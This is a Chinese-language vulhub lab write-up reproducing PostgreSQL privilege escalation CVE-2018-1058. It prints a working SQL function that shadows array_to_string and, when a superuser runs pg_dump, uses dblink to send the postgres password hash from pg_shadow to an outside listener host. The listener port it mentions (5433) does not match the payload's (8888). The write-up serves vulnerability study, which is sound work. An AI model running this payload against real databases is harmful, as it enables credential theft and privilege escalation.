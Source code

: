 # PostgreSQL 提权漏洞（CVE-2018-1058）

###### by ADummy

### 0x00利用路线

​			普通用户连接到数据库--->注入危险代码--->等待超级用户登录触发后门--->收到敏感信息

### 0x01漏洞介绍

​			PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

影响版本

```
PostgreSQL < 10
```

### 0x02漏洞复现

我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`

执行如下语句后退出：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.0.141 port=8888 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![PostgreSQL_提权漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PostgreSQL_提权漏洞_1.jpg)

然后我在`192.168.0.141`上监听5433端口，等待超级用户触发我们留下的这个“后门”，用超级用户的身份执行`pg_dump`命令：`docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。执行上述命令的同时，“后门”已被触发192.168.0.141机器上已收到敏感信息：

![PostgreSQL_提权漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PostgreSQL_提权漏洞_2.jpg)













